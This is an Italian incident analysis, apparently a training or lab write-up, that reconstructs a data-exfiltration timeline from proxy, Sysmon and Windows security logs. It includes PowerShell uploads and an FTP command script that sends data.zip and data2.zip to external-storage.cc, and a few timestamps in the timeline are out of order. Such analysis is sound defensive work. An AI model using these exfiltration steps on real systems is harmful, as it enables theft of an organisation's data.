 


# Logs 
Network & Endpoint Logs

![ ](../image/7a.png)

# Ricognizione
```
└── 11:05:03 PROXY01 ... suspicious GET http://external-storage[.]cc/storage/credentials[.]txt (da 10.20.14.55)
```
Alle 11:05:03 il primo passo di ricognizione, un client interno (IP 10.20.14.55) contatta tramite Proxy01 il dominio sospetto external-storage.cc, chiedendo un file chiamato `credentials.txt`. Questo tipo di richiesta serve all’attaccante per verificare se il server C2 è attivo e pronto a ricevere dati. È come un “ping” iniziale per stabilire contatto.
Subito dopo inizia la vera esfiltrazione dei dati.

# Metodo di Esfiltrazione 1 ( PowerShell HTTP PUT)
```
└── 11:05:25 powershell.exe (User a.wilson, parent=explorer.exe) ... PUT data.zip to external-storage.cc
     └── 11:05:27 FileCreate ... data.zip scritto (SHA256=A3B1C…)
     └── 11:05:35 TCP connect ... 198.51.100.12:80
     └── 11:05:37 PROXY01 POST ... data.zip 65 KB to external-storage.cc
     └── 11:05:52 cmd.exe cleanup ... cancella data.zip (child of powershell)
```
La prima tecnica di esfiltrazione è stata realizzata con PowerShell, sfruttando la capacità del comando di interagire con server remoti. Alle 11:05:25, powershell.exe (PID 6120, utente CORP\a.wilson, avviato da explorer.exe) ha tentato di caricare un file chiamato `data.zip` sul dominio `external-storage.cc` utilizzando il metodo HTTP PUT. In realtà, in quel preciso istante, il file non esisteva ancora... il comando ha solo avviato il processo di preparazione.

Solo due secondi dopo, alle 11:05:27, Sysmon registra la creazione del file data.zip, completo di hash SHA256, segno che i dati interni sono stati raccolti e compressi in un archivio pronto per la trasmissione. Poi, lo stesso processo apre una connessione TCP verso l’indirizzo remoto `198.51.100.12:80`, e poco dopo il proxy aziendale (PROXY01) conferma un’operazione di HTTP POST da 65 KB diretta al dominio esterno. Questo rappresenta l’effettiva uscita dei dati dall’ambiente interno.

Infine, alle 11:05:52, un nuovo processo cmd.exe, generato come figlio di powershell.exe, esegue un comando di eliminazione di data.zip dal disco. Chiaramente è un passo di cleanup, volto a cancellare tracce locali e rendere più difficile l’analisi forense.


# Metodo di Esfiltrazione 2  (Client FTP)
```
└── 11:05:41 ftp.exe -s:ftp_commands.txt external-storage.cc (spawned post-cleanup)
     └── 11:05:42 / 11:05:45 ... handle + accesso a data.zip
     └── 11:05:49 TCP connect ... external-storage.cc:21
     └── 11:06:25 FileCreate ... ftp_commands.txt (istruzioni FTP)
     └── 11:06:33 cmd.exe ... scrive batch script FTP (parent=ftp.exe)
```
Alle 11:05:41 viene eseguito il process ftp.exe con il parametro `-s:ftp_commands.txt`. Questo significa che l’attaccante non digita i comandi a mano, ma usa un file di script che contiene tutte le istruzioni necessarie. Così l’FTP lavora in automatico e silenziosamente.
Subito dopo, tra le 11:05:42 e le 11:05:45, i log di sicurezza mostrano che ftp.exe ha richiesto un handle e ha letto il file data.zip. In pratica, sta aprendo il file per prepararlo al trasferimento. 

Poi Sysmon registra una connessione TCP verso external-storage.cc sulla porta 21, che è la porta standard del protocollo FTP. Questo conferma che la sessione FTP è stata effettivamente stabilita con il server esterno.
11:06:25, viene creato un nuovo file `ftp_commands.txt`, questa volta generato automaticamente. È uno script con comandi come open `external-storage.cc, user anon, put data.zip, e infine bye`. Questo tipo di file serve a dire al client FTP di aprire la connessione, accedere con utente anonimo e caricare il file senza interazione umana.

11:06:33, infatti, un nuovo cmd.exe scrive un secondo script FTP, stavolta con istruzioni per caricare anche `data2.zip`. Questo mostra come l’attaccante stia usando più tentativi, diversificando i metodi di esfiltrazione per aumentare le chance di successo.

# Metodo di Esfiltrazione 3 ( Automazione Batch / Second File)

```
└── 11:06:33 cmd.exe (batch automation) 
     └── 11:06:37 FileCreate ... data2.zip
     └── 11:06:41 TCP connect ... external-storage.cc:21
     └── 11:06:45 FileCreate ... data2.zip confermato (secondo metodo di esfiltrazione)
     └── 11:06:59 RegistryValueSet ... HKCU\Software\Corp\LastExfil = external-storage.cc (execution marker)
```
Alle 11:06:37 i log mostrano la creazione di un nuovo file chiamato data2.zip. l’attaccante non si limita a un solo file, ma prepara un ulteriore archivio da inviare al server esterno. Subito dopo, il processo cmd.exe stabilisce una connessione TCP verso il dominio `external-storage.cc ` utilizzando la porta 21, che è quella standard del protocollo FTP. Questo significa che il file appena creato è destinato ad essere trasferito tramite una sessione FTP.

Un elemento interessante è che poco prima, tra le 11:06:25 e le 11:06:33, viene creato un nuovo file `ftp_commands.txt`. Non si tratta di un file scritto manualmente, ma di uno script generato direttamente da cmd.exe usando comandi `echo`. Dentro questo script ci sono le istruzioni per aprire la connessione FTP, accedere con utente anonimo, caricare il file data2.zip e infine chiudere la sessione con un comando di uscita. In questo modo l’attaccante non deve digitare nulla, tutto avviene in automatico e silenziosamente.

Alle 11:06:45, i log segnalano nuovamente la creazione di data2.zip, probabilmente perché il file è stato copiato o riscritto durante il processo di upload. Questo mostra che l’attaccante ha predisposto un meccanismo ridondante per assicurarsi che il file fosse effettivamente pronto al trasferimento. 

Infine, Sysmon registra una modifica al Registro di Windows...la chiave `HKCU\Software\Corp\LastExfil` viene aggiornata con il valore `“2025-08-22T11:05:37 external-storage.cc”`. significa che l’attaccante tiene traccia delle esfiltrazioni completate, lasciando un piccolo segno interno che funge da checkpoint per futuri attacchi o per evitare duplicazioni.


# 


```
 └── 11:06:08 Security 4634 ... User a.wilson logoff
 └── 11:10:05 Security 4625 ... Tentativo fallito di logon (possible account lockout)
```
Alla fine delle attività di esfiltrazione, i log mostrano la chiusura della sessione dell’utente. Alle 11:06:08, l’account a.wilson effettua un logoff interattivo dal portatile WIN10-LAPTOP, segnalato come Security EventID 4634. indica che l’attaccante, o lo script usato, ha terminato la sessione probabilmente per nascondere meglio le tracce o per chiudere l’attività senza lasciare processi attivi in memoria. Poco dopo, alle 11:10:05, compare un tentativo di accesso fallito con lo stesso account, CORP\a.wilson, che genera un Security EventID 4625. Questo evento potrebbe indicare che l’account è stato bloccato dopo gli abusi.


